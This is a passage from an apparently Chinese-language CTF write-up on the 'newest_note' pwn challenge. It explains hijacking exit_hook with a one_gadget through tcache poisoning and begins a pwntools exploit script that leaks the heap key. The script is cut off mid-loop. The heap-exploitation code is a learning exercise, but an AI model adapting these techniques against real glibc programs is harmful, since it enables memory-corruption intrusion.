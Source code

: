 >  这里没有选择freehook或者mallochook是因为没有合适的onegadget，选择劫持exithook

### 四、劫持exithook

由于我们在tcache链里折叠了两个chunk这样便可以轻松的更改freechunk的内容，劫持exithook为ongadget然后结束程序便可，最终结构如下

```Python
add(11,b'a'*0x18+p64(0x41)+p64(key^(exit_hook-0x8)))
add(12,b'aaaa')
add(13,b'a'*0x8+p64(one_gadget))
```

![img](https://img-blog.csdnimg.cn/6d12cf8cb53c453683ef5ee3ddc6f2d2.png)

##  EXP

```Python
from pwn import *

io = process('./newest_note')
# context.log_level = 'debug'

libc = ELF('./libc.so.6')

def add(idx,text):
    io.recvuntil('4. Exit')
    io.sendline('1')
    io.recvuntil('Index: ')
    io.sendline(str(idx))
    io.recvuntil('Content: ')
    io.send(text)
    
def free(idx):
    io.recvuntil('4. Exit')
    io.sendline('2')
    io.recvuntil('Index: ')
    io.sendline(str(idx))
    
def show(idx):
    io.recvuntil('4. Exit')
    io.sendline('3')
    io.recvuntil('Index: ')
    io.sendline(str(idx))
    
io.recvuntil('How many pages your notebook will be? :')
io.sendline('16')

for i in range(16):
    add(i,'aaaaaaaa')

add(15,'cccccccc')
add(15,'cccccccc')
add(15,'cccccccc')

free(0)
show(0)
io.recvuntil('Content: ')
key=u64(io.recvuntil('\x0a')[:-1].ljust(8,b'\x00')) #key
heap_base = key<<12
success('key-->'+hex(key))
success('heap-->'+hex(heap_base))
# pause()

for i in range(1,7):
```